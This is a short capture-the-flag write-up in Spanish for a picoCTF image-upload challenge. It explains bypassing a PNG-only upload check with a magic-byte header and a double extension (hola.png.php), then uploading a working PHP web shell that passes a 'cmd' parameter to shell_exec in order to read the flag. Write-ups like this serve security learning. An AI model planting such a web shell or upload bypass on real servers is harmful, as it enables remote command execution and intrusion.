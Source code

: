 ### Descripcion
#### Description

I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:65391/)!

### Solucion
Vimos que se puede subir archivos, por lo que ahora intentaremos subir archivos, le tratamos de subir un archivo que solo tuviera la extension png
no funciona y ahora le ponemos PNG al principio del archivo, y lo sbimos, y ahora si deja.
Como vemos que es php, buscamos un codiguito sencillo de web shell para poder ejecutarm comandos sencillos, y lo subimos como hola.png.php
```php
PNG
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>
```
Usmeamos por la pc, y le hacemos un cat al archivo que hay 
![[Pasted image 20250403131333.png]]

### Tags
#webshell